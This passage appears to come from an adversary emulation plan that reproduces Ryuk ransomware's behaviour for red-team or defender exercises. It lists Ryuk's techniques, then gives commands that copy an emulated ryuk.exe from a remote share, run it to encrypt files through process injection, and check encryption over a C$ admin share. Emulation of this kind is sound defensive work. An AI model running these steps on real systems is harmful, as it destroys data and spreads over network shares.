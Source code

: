 Note that the symmetric key is itself encrypted with RSA2048.

*Note: early versions of our Ryuk emulation encrypted the entire filesystem; however, this proces took hours, rather than minutes, so we scaled it back due to time constraints.*

---

### ☣️ Procedures

From the pre-existing CMD session, run the following:

```bash
# Ryuk has attempted to adjust its token privileges to have the SeDebugPrivilege.[11]

# Ryuk has called CreateToolhelp32Snapshot to enumerate all running processes.[1]

# Ryuk has injected itself into remote processes to encrypt files using a combination of VirtualAlloc, WriteProcessMemory, and CreateRemoteThread.[1]

# Ryuk has used a combination of symmetric (AES) and asymmetric (RSA) encryption to encrypt files. Files have been encrypted with their own AES key and given a file extension of .RYK. Encrypted directories have had a ransom note of RyukReadMe.txt written to the directory.[1]

# Ryuk has used the C$ network share for lateral movement.[5]

# Ryuk has called GetIpNetTable in attempt to identify all mounted drives and hosts that have Address Resolution Protocol (ARP) entries.[1][5]

copy \\TSCLIENT\X\ryuk.exe C:\Users\Public\ryuk.exe
```

```bash
C:\Windows\System32\notepad.exe
```

```bash
C:\Users\Public\ryuk.exe --encrypt --process-name notepad.exe
```

To confirm that encryption worked, execute the following in CMD:

```bash
# confirm files are encrypted (local)
type C:\Users\Public\Documents\Whitepaper_ekFUNt.rtf

# confirm encryption (remote)
type \\toto\C$\Users\Public\Documents\Whitepaper_ekFUNt.rtf
```

### :microscope: Cited Intelligence

* <https://www.crowdstrike.com/blog/big-game-hunting-with-ryuk-another-lucrative-targeted-ransomware/>
* <https://thedfirreport.com/2020/11/05/ryuk-speed-run-2-hours-to-ransom/>
* <https://thedfirreport.com/2020/10/18/ryuk-in-5-hours/>
* <https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-006.pdf>
* <https://n1ght-w0lf.github.io/malware%20analysis/ryuk-ransomware/>
